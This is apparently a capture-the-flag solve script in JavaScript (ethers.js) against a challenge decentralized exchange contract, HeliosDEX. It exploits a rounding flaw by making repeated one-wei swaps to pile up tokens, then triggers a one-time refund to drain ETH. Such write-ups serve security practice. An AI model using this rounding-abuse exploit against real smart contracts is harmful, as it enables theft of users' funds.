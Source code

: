     const ERC20_ABI = [
      "function approve(address spender, uint256 amount) external returns (bool)",
      "function balanceOf(address account) external view returns (uint256)"
    ];
    
    async function main() {
      const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
      const wallet = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    
      const setupContract = new ethers.Contract(SETUP_ADDRESS, SETUP_ABI, wallet);
      const targetAddress = await setupContract.TARGET();
      const dex = new ethers.Contract(targetAddress, HELIOS_DEX_ABI, wallet);
    
      const hlsAddress = await dex.heliosLuminaShards();
      const hlsToken = new ethers.Contract(hlsAddress, ERC20_ABI, wallet);
    
      console.log(`Connected to HeliosDEX at: ${targetAddress}`);
    
      // Exploit: repeatedly swap very small ETH amounts to get HLS due to faulty rounding
      const exploitValue = ethers.utils.parseUnits("1", "wei"); // smallest possible ETH amount
      const iterations = 250; // Do multiple swaps to accumulate tokens efficiently
    
      console.log(`Starting exploit with ${iterations} swaps of 1 wei each...`);
      for (let i = 0; i < iterations; i++) {
        const txSwap = await dex.swapForHLS({ value: exploitValue });
        await txSwap.wait();
        console.log(`Swap #${i + 1} completed.`);
      }
    
      // Check accumulated HLS balance
      const hlsBalance = await hlsToken.balanceOf(PLAYER_ADDRESS);
      console.log(`Accumulated HLS balance: ${ethers.utils.formatUnits(hlsBalance, 18)} HLS`);
    
      // Approve the DEX to spend tokens
      const approveTx = await hlsToken.approve(targetAddress, hlsBalance);
      await approveTx.wait();
      console.log("Approved DEX to spend HLS tokens.");
    
      // Perform refund once to gain ETH
      const hasRefunded = await dex.hasRefunded(PLAYER_ADDRESS);
      if (!hasRefunded) {
        const refundTx = await dex.oneTimeRefund(hlsAddress, hlsBalance, { gasLimit: 1000000 });
        await refundTx.wait();
        console.log("Refund executed successfully.");
      } else {
        console.log("Refund already executed previously.");
      }
    
      const playerBalance = await provider.getBalance(PLAYER_ADDRESS);
      console.log(`Final player's ETH balance: ${ethers.utils.formatEther(playerBalance)} ETH`);
    
      const solved = await setupContract.isSolved();
      if (solved) {
        console.log("Challenge Solved! Player has 20 ETH or more.");
      } else {
        console.log("Not solved yet, consider increasing iterations.");
      }
    }
    